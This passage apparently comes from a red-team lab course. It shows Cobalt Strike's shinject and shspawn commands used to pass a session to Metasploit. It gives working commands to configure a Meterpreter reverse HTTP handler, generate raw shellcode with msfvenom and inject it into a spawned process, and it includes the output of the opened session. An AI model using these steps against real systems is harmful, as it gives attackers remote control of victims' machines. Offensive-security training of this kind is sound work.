 Cobalt Strike has two further generic injection commands that can be utilised for the purpose of session passing: `shinject` and `shspawn`.  Both allow you to inject an arbitrary shellcode blob - shinject can inject into an existing process, and shspawn will spawn a new process.

First, change the multi handler to use a stageless x64 Meterpreter payload.
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_http
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```
  

Next, generate the associated payload using `msfvenom` inside WSL, and save the output to your `Payloads` directory.
```
ubuntu@DESKTOP-3BSK7NO ~> msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.50 LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201820 bytes
Saved as: /mnt/c/Payloads/msf_http_x64.bin
```
  

Finally, use shspawn to spawn a process and inject it.
```
beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
```

```
[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: 64tqy4zf) Redirecting stageless connection from /jeqN5SIPwEzAGcEbowwz7Q-hb8QsIP with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36'
[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: 64tqy4zf) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 13:04:53 +0000
```